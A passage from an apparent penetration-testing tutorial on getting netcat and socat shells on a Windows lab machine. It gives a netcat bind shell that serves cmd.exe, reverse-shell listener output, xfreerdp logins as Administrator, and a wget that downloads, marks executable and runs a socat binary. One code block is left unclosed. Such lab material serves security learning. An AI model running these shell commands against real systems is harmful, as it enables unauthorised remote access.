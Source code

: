 An output similar to below will be obtained, indicating the connection established to `netcat` listener.
{% capture code %}{% raw %}(UNKNOWN) [10.10.255.254] 443 (?) open{% endraw %}{% endcapture %} {%include code.html code=code %}

The `reverse shell` in attacking machine would have spawned at the `netcat` listener.
{% capture code %}{% raw %}Connection from <target-ip> 50113 received!
Microsoft Windows [Version 10.0.17763.1637]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\>{% endraw %}{% endcapture %} {%include code.html code=code %}


### Bind Netcat shell - Windows

Use `xfreerdp` to test rdp connection with newly created user.
{% capture code %}{% raw %}xfreerdp /dynamic-resolution +clipboard /cert:ignore /v:<target-ip> /u:Administrator /p:'<password>'{% endraw %}{% endcapture %} {%include code.html code=code %}

Create a `netcat` listener in target machine.
{% capture code %}{% raw %}nc -lnvp 4430 -e "cmd.exe"{% endraw %}{% endcapture %} {%include code.html code=code %}

An output similar to below will be obtained, which mentions the listener is active.
{% capture code %}{% raw %}listening on [any] 4430 ...{% endraw %}{% endcapture %} {%include code.html code=code %}

Activate the `bind shell` from the attacking machine.
{% capture code %}{% raw %}nc -nv <target-ip> 4430

The `bind shell` in target machine would have spawned at the `netcat` activator.
{% capture code %}{% raw %}Connection to <target-ip> 4430 port [tcp/*] succeeded!
Microsoft Windows [Version 10.0.17763.1637]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\>{% endraw %}{% endcapture %} {%include code.html code=code %}


### Reverse Socat shell - Windows

`Socat` can be installed from distribution repo or a standalone binary can be downloaded and used. The links for standalone binaries for linux is [here](https://github.com/andrew-d/static-binaries/blob/master/binaries/linux/x86_64/socat?raw=true){:target="_blank"} and windows is [here](https://sourceforge.net/projects/unix-utils/files/socat/){:target="_blank"}.

`Socat` shell is stabilised and sanitised by default and does not need additional configurations after gaining `shell`.

Create a `socat` listener in target machine.
{% capture code %}{% raw %}wget -q https://github.com/andrew-d/static-binaries/raw/master/binaries/linux/x86_64/socat -O /tmp/socat; chmod +x /tmp/socat; /tmp/socat TCP-L:443 FILE:`tty`,raw,echo=0{% endraw %}{% endcapture %} {%include code.html code=code %}

Use `xfreerdp` to test rdp connection with newly created user.
{% capture code %}{% raw %}xfreerdp /dynamic-resolution +clipboard /cert:ignore /v:<target-ip> /u:Administrator /p:'<password>'{% endraw %}{% endcapture %} {%include code.html code=code %}

